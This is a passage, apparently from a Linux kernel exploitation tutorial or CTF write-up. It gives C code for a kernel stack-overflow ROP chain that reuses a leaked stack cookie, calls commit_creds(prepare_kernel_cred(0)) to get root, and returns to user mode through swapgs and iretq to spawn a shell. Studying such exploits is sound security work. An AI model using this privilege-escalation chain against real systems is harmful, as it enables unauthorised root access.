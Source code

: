 With the gadgets in hand, we can build the full ROP chain:

```
unsigned long user_rip = (unsigned long)get_shell;

unsigned long pop_rdi_ret = 0xffffffff81006370;
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f; // swapgs ; pop rbp ; ret
unsigned long iretq = 0xffffffff8100c0d9;

void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_ret; // return address
    payload[off++] = 0x0; // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8; // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE doesn't branch
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi <- rax
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop1_ret; // swapgs
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = iretq; // iretq frame
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}


```

